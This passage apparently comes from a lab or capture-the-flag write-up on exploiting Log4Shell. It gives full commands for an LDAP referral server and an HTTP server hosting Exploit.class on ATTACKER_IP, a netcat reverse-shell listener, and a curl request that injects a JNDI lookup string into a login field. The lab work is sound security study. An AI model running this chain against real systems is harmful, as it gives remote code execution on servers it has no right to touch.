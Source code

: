 We have to compile this shell to get a class file. Kali does not have java 8 by default so I'll go straight for the exact same version compiler that the server has:

```bash
jdk1.8.0_181/bin/javac Exploit.java
```

### Log4J Exploitation

Now we are ready for exploitation. For an RCE we need four things to happen. First, we need to host our LDAP server which we already looked at (Note that the server points to an HTTP server on port 8888):

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8888/#Exploit"
```

Then we need to start the HTTP server that the LDAP server is pointing to. We start this server in the directory where we have the `Exploit.class` file since that is the payload that we are hosting:

```bash
sudo python3 -m http.server 8888
```

The second to last thing that we have to do is to start our NetCat listener on the port that we specified in the reverse shell:

```bash
nc -lnvp 4545
```

And the final thing we need to do is to trigger the LDAP request with the following command (Note that the resource we are looking for does not matter, because the LDAP server will redirect it to `Exploit.class`):

```bash
curl -X POST "http://TARGET_IP/REDACTED/api/login" -H "Content-Type: application/json" -d '{"pwd":"test","uid":"${jndi:ldap://ATTACKER_IP:1389/xyz}"}'
```

Here is what it all looks like when you run it. Definitely one of my favorite exploits!! I suggest you line up the terminals in the same way which makes it super satisfying:
